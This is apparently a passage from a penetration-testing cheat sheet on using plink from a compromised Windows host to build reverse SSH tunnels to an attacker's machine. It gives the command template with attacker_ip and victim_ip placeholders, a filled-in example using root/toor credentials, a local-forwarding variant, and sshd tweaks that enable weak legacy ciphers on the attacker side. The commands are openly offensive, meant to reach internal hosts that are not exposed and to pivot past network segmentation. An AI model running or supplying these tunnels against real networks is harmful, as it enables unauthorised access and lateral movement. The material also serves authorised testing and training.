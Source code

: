 ```
cmd.exe /c echo y | plink.exe -ssh -l [attacker_username] -pw [attacker_ssh_password] -R [attacker_ip]:[attacker_port]:[victim_ip]:[victim_port] [attacker_ip]
```

for example, suppose you have gained access at a dual-homed host and using this access, you want to access a port at another host that is not connected to the internet (you can't directly talk to it) but is accessible from the host you have access to:

- `attacker_ip` = 13.13.13.13
- `attacker_port` = 2222 (this is the final port that will accept the remote connection)
- `victim_ip` = 10.10.10.10 (IP of the inaccessible host)
- `victim_port` = 22 (Port of the inaccessible host that you will tunnel outside)

`cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R 13.13.13.13:2222:10.10.10.10:22 13.13.13.13`

### Local Tunnel

If you don't want to do an SSH remote port forwarding, but a local one instead:

```
cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R [attacker_ip]:[attacker_port]:127.0.0.1:[victim_port] [attacker_ip]
```

The above command will forward the local `victim_port` at the host that you have access to, to your `attacker_ip`:`attacker_port`

In the commands above, the `cmd.exe /c echo y |` part can be omitted if you have previously accepted the server SSH certificate.

For the above to work, you need the following configuration at your SSH server:
`GatewayPorts yes`

### Plink Troubleshooting

* Check if architecture of plink and target system are compatible (32 bit & 64 bit).
* Check the version of plink, find newest version [here](https://www.putty.org/)
* Key exchange algorithm troubleshooting: 
	* FATAL ERROR: Couldn't agree a key exchange algorithm (available: curve25519-sha256,curve25519-sha256@libssh.org,ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group16-sha512,diffie-hellman-group18-sha512,diffie-hellman-group14-sha256).
	* Solution: Try to edit **/etc/ssh/sshd_config** and put the following to the top of the file:
	```
	KexAlgorithms +diffie-hellman-group1-sha1
	Ciphers +aes128-cbc
	```
	Stop ssh from attackers machine:
	```
	systemctl stop ssh
	```
	Regenerate the keys:
	```
	ssh-keygen -A
	```
	Start ssh again:
	```
	systemctl start ssh
	```
	Use again the plink (Victim machine)
